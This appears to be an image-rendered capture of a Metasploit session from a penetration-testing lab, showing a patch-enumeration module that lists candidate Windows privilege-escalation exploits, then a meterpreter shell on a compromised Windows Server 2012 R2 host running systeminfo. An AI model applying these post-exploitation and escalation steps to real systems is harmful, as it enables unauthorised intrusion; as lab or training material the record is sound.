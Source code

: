 ```
[+] KB977165 - Possibly vulnerable to MS10-015 kitrap0d if Windows 2K SP4 - Windows 7 (x86)
[+] KB2305420 - Possibly vulnerable to MS10-092 schelevator if Vista, 7, and 2008
[+] KB2592799 - Possibly vulnerable to MS11-080 afdjoinleaf if XP SP2/SP3 Win 2k3 SP2
[+] KB2778930 - Possibly vulnerable to MS13-005 hwnd_broadcast, elevates from Low to Medium integrity
[+] KB2850851 - Possibly vulnerable to MS13-053 schlamperei if x86 Win7 SP0/SP1
[+] KB2870008 - Possibly vulnerable to MS13-081 track_popup_menu if x86 Windows 7 SP0/SP1
[*] Post module execution completed

```

```
msf5 post(windows/gather/enum_patches) > sessions 1
[*] Starting interaction with 1...

meterpreter > shell
Process 2808 created.
Channel 1 created.
Microsoft Windows [Version 6.3.9600]
(c) 2013 Microsoft Corporation. All rights reserved.

C:\hfs>systeminfo
systeminfo

Host Name:                 WIN-OMCNBKR66MN
OS Name:                   Microsoft Windows Server 2012 R2 Standard
OS Version:                6.3.9600 N/A Build 9600
OS Manufacturer:           Microsoft Corporation
OS Configuration:          Standalone Server
OS Build Type:             Multiprocessor Free
Registered Owner:          EC2
Registered Organization:   Amazon.com
Product ID:                00252-70000-00000-AA535
Original Install Date:     9/10/2020, 9:10:37 AM
System Boot Time:          2/12/2023, 12:23:27 PM
System Manufacturer:       Xen
System Model:              HVM domU
System Type:               x64-based PC
Processor(s):              1 Processor(s) Installed.
                           [01]: Intel64 Family 6 Model 79 Stepping 1 GenuineIntel ~2300 Mhz
BIOS Version:              Xen 4.11.amazon, 8/24/2006
Windows Directory:         C:\Windows
System Directory:          C:\Windows\system32
Boot Device:               \Device\HarddiskVolume1
System Locale:             en-us;English (United States)
Input Locale:              en-us;English (United States)
Time Zone:                 (UTC) Coordinated Universal Time
Total Physical Memory:     1,024 MB
Available Physical Memory: 573 MB
Virtual Memory: Max Size:  9,216 MB
Virtual Memory: Available: 8,614 MB
Virtual Memory: In Use:    602 MB
Page File Location(s):     C:\pagefile.sys
Domain:                    WORKGROUP
Logon Server:              \\WIN-OMCNBKR66MN
Hotfix(s):                 208 Hotfix(s) Installed.
                           [01]: KB2894856
                           [02]: KB2896496
                           [03]: KB2919355
                           [04]: KB2919442
                           [05]: KB2934520
                           [06]: KB2938066
                           [07]: KB2938772
                           [08]: KB2949621
```